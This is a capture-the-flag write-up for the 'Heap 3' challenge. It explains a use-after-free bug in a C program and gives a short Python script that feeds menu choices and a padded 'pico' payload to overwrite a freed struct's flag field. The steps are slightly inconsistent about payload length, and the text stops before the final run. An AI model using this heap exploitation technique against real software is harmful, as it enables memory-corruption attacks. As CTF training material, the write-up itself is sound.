



# Heap 3

**Description:**  
This program mishandles memory. Can you exploit it to retrieve the flag?

---

## Steps to Solve

### 1. Inspect the Source Code
The program uses a `struct` in C. From the code, the `check_win()` function checks if `x->flag` contains the string `"pico"`. To win, we need to overwrite `x->flag` with `"pico"`.

```c
typedef struct {
  char a[10];
  char b[10];
  char c[10];
  char flag[5];
} object;

int num_allocs;
object *x;

void check_win() {
  if (!strcmp(x->flag, "pico")) {
    printf("YOU WIN!!11!!\n");

    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);

  } else {
    printf("No flag for you :(\n");
    fflush(stdout);
  }
}
```

---

### 2. Analyze the Program
The program provides the following functions:
- `free_memory()` to free the memory allocated to `x`.
- `alloc_object()` to allocate memory for a new object.

Since `malloc` reserves memory on the heap, we can exploit this by:
1. Using `free_memory()` to free `x`.
2. Using `alloc_object()` to allocate a new object, which will overwrite the memory of `x`.

This allows us to overwrite `x->flag` as shown below:



---

### 3. Run the Program
From the program's output menu, the process to exploit it is as follows:
1. Free `x`.
2. Allocate a new object.
3. Specify a size of 30.
4. Input 30 random characters ending with `"pico"`.
5. Check for the win condition.

Example output menu:



---

### 4. Exploit the Program
Here is a Python script (`script.py`) to automate the exploitation process:

```python
import sys

size = 30
sys.stdout.buffer.write(b'5\n2\n' + b'30\n' + b'A' * size + b'pico\n4\n')
```

Run the script and pipe its output to the program:

